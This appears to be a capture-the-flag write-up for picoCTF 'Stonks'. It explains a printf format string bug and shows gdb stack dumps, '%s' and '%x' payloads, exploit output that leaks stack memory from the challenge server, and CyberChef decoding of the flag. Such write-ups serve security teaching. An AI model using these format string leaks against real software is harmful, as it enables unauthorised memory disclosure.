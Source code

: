 # PicoCTF: Stonks

## TL;DR:

The cleartext flag value is read from a file in the current directory into a
`char[]` stack local variable. The same function uses `scanf()` to read attacker
controlled input from stdin into a heap allocated buffer. The input buffer is
then passed as the sole argument to `printf()`, giving the attacker control of
the format string and thus the ability to leak stack contents.

Techniques
- Format string abuse

Mitigations
- None.

## Notes

1. The `buy_stonks()` function includes a stack variable,
`char api_buf[FLAG_BUFFER]`, which sure seems like a big hint about where the
flag resides.

The variable is wholely allocated on the `buy_stonks` stack frame.

See the TODO about reading API token from file, and poke at the `scanf()` call,
trying to see if maybe I can trick it into skipping the terminating null by
sending long (300+ chars) input. Alas, I cannot; the 300 character limit of
`scanf()`'s read with `300+1` from the `malloc()` mean I can't fill the last
byte of `user_buf` with a non-null character.

2. Use `clang` to locally compile `vuln.c` and get a warning that the
`user_buf` variable passed to `scanf()` is unsafe.

```
(stonks) kavefish@cairn:stonks/ $ clang -g -o stonks vuln.c
vuln.c:93:9: warning: format string is not a string literal (potentially insecure) [-Wformat-security]
        printf(user_buf);
               ^~~~~~~~
vuln.c:93:9: note: treat the string as an argument to avoid this
        printf(user_buf);
               ^
               "%s",
1 warning generated.
```

Hm. So this is a format string challenge.

3. Go read about exploiting format string bugs

This [resource](https://null-byte.wonderhowto.com/how-to/exploit-development-read-write-programs-memory-using-format-string-vulnerability-0181919/) was a good refresher.

Get inspired to run the binary under a debugger to explore stack layout.

```
(stonks) kavefish@cairn:stonks/ $ echo "ctf{FLAGFLAGFLAG}" > api
(stonks) kavefish@cairn:stonks/ $ gdb --args ./stonks
pwndbg> b vuln.c:93
Breakpoint 2 at 0x151c: file vuln.c, line 93.
pwndbg> r
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%s%s%s%s
Buying stonks with token:
```

So the stack looks like this:

```
00:0000│ rsp 0x7fffffffdef0 —▸ 0x55555555a940 ◂— '%s%s%s%s'
01:0008│     0x7fffffffdef8 —▸ 0x55555555a920 ◂— 0x4c00000003
02:0010│     0x7fffffffdf00 ◂— 0x3
03:0018│     0x7fffffffdf08 —▸ 0x5555555596d0 ◂— 0xfbad2488
04:0020│     0x7fffffffdf10 ◂— 'ctf{FLAGFLAGFLAG}\n'
05:0028│     0x7fffffffdf18 ◂— 'FLAGFLAG}\n'
06:0030│     0x7fffffffdf20 ◂— 0x555555000a7d /* '}\n' */
07:0038│     0x7fffffffdf28 —▸ 0x7ffff7f9bc80 (main_arena) ◂— 0x0
```

And we can see the flag is the 5th item on the stack, which means `scanf()`
should be able to copy the flag into `user_buf`, which will be `printf()`ed and
thus leaked back to us.

## Leak the flag

Sending a format string of `"%s%s%s%s"` causes the remote process to crash with
a SIG_SEGV, likely due to traversing a pointer to unmapped memory. Sending one
fewer `%s` causes some stack memory to be included in `user_buf` and returned
to us. However, nothing in the output takes the form of `picoCTF{...}.`

Since strings aren't working, switch from `%s` to `%x` to print bytes in raw
hex. Experiment with now many words to return; codify in `exploit.py`.

```
(stonks) kavefish@cairn:stonks/ $ ./exploit.py
[+] Opening connection to mercury.picoctf.net on port 20195: Done
[*] Switching to interactive mode
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
Buying stonks with token:
906F3F0804B00080489C3F7F2CD80FFFFFFFF1906D160F7F3A110F7F2CDC70906E1801906F3D0906F3F06F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E3534303664303664FF97007DF7F67AF8F7F3A4403E7ADE0010F7DC9CE9F7F3B0C0F7F2C5C0
Portfolio as of Tue May  3 23:56:48 UTC 2022


1 shares of MZV
2 shares of SIF
1 shares of NWUV
6 shares of VCKV
37 shares of XBY
80 shares of GXDP
745 shares of F
227 shares of CXTH
Goodbye!
[*] Got EOF while reading in interactive
```

Copy all the returned bytes into CyberChef and decode "From Hex". The output
includes a structure that sort of looks like `foo{bar}`, but it's jumbled:

```
.o?..°..H.?.,Ø.ÿÿÿñ.m...:...,Üp.n...o=	.óðocip{FTC0l_I4_t5m_ll0m_y_y3n5406d06dÿ..}÷özø÷ó¤@>zÞ..÷Ü.é÷ó°À÷òÅÀ
```

Keep messing with CyberChef "Data format" operations until stumbling upon "Swap
Endianness". That's worth a try.

The message is still jumbled after enabling the operation, but in a different
way. The "Swap Endianness" operation has a word length parameter, which
defaults to 4. Try fiddling with it. No luck.

Word length sort of implies alignment is a factor in decoding. Maybe some
preceeding garbage stack data is pushing the string data out of alignment.
Start deleting bytes from the front of the input buffer.

After deleting a couple of the leading bytes the flag finally renders clearly.

[Solution](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',4,true)From_Hex('Auto')&input=M0IwODA0QjAwMDgwNDg5QzNGN0VDM0Q4MEZGRkZGRkZGMTlBQjcxNjBGN0VEMTExMEY3RUMzREM3MDlBQjgxODA0OUFCOTM5MDlBQjkzQjA2RjYzNjk3MDdCNDY1NDQzMzA2QzVGNDkzNDVGNzQzNTZENUY2QzZDMzA2RDVGNzk1Rjc5MzM2RTM1MzQzMDM2NjQzMDM2NjRGRkI5MDA3REY)
